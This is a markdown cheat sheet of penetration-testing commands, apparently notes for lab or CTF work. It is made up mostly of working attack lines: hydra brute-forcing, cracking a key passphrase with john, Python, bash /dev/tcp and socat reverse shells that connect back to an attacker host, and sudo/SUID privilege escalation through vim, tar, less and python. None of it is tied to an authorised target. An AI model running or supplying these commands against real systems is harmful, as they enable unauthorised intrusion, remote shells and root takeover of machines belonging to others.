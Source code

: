# NMAP Basic scan with outfile 

nmap -sC -sV -oN /path/to/file ip

# Enum4linux-ng


**_enumerating smb clients and servers_**

_use example_

python3 enum4linux-ng.py -U -A -R ip

# Hydra example

hydra -l username -P /path/to/wordlist proto://ip

# Cracking the passphrase of an rsa key with John

sh2john.py rsa_file > file.txt
john file.txt

#Checkin for suid on a system run the following commands
find / -perm -u=s -type f 2>/dev/null

# Different ways to read a file

while read line; do echo $line done; < file
cat file
grep . file


# Pentestmonkey reverse shell examples
_in python it would be, note that if the machine doesnt have python2 installed(modern machines) it works with python3_

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


#Privilege scalation with vim

there are 2 ways of running a shell as root with vim

##_First option_
sudo vim 
 -> :set shell=/bin/sh
 -> :shell

##_Second option_
sudo vim -c ':!/bin/sh'


#Privilege scalation with tar

If the user is allowed in the sudoers file we can easily become root by running _sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh_

#Using and understanding netcat

to set up a listening port in nc

nc -lnvp portnumber

#Read pcaps

Could use wireshark

If you are looking for a password strings will just do the job for it and it will provide more clarity

#Bash remote shell

echo 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"' > /path/to/script run by root

#Privesc with less
you can run less with _sudo_ against a file and enter in less's command mode by typing !/bin/sh

Example

sudo less file.log
!/bin/sh

#GTFOs bin with python

In order to get a privileged shell with python (only if it has the suid set) we can run

python -c 'import os; os.system("/bin/sh")'

#Stable shell with pty

When we stabblish the first shell with nc it tends not to have a pty which for some porcesses it can be stressful

to solve that you can run this python adhoc command python -c 'import pty; pty.spawn("/bin/bash")' which gets you a tty that lets you freely run all the commands you need without prompting any error nor warning about not having a tty


#Socat GTFO bin

To get a remote shell on a machine using socat you need to run this
this is run on your local machine

socat file:`tty`,raw,echo=0 tcp-listen:$port

this is run on the remote machine
sudo /usr/bin/socat tcp-connect:$yourIP:$yourport exec:sh,pty,stderr,setsid,sigint,sane
